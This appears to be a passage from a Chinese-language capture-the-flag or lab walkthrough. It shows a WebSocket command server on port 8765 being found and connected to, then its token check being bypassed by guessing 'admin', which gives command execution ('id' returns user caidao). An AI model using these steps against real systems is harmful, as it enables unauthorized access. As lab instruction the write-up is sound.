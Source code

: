 测试8765端口服务：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl 192.168.205.179:8765
Failed to open a WebSocket connection: missing Connection header.

You cannot access a WebSocket server directly with a browser. You need a WebSocket client.
```

发现8765端口运行的是WebSocket服务。

## WebSocket服务分析

WebSocket是一种在单个TCP连接上进行全双工通信的协议，常用于实时通信应用。错误信息提示需要使用WebSocket客户端连接。

> [!Tip]
>
> https://book.hacktricks.wiki/en/pentesting-web/websocket-attacks.html?highlight=websoca#linux-console
>
> https://zh.wikipedia.org/wiki/WebSocket

# 三、WebSocket攻击

## 建立WebSocket连接

使用websockets工具连接到WebSocket服务：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ websockets ws://192.168.205.179:8765
Connected to ws://192.168.205.179:8765.
< {"type": "system", "message": "Connected to command server. Send commands use JSON"}
```

服务器提示这是一个命令服务器，需要使用JSON格式发送命令。

## JSON命令测试

尝试执行id命令：

```bash
> {"command": "id"}
< {"type": "error", "message": "Invalid token. Access denied."}
```

提示需要token认证。

## Token绕过

尝试使用常见的token值：

```bash
> {"token": "admin", "command": "id"}
< {"type": "result", "command": "id", "output": "uid=1000(caidao) gid=1000(caidao) groups=1000(caidao)\n"}
```
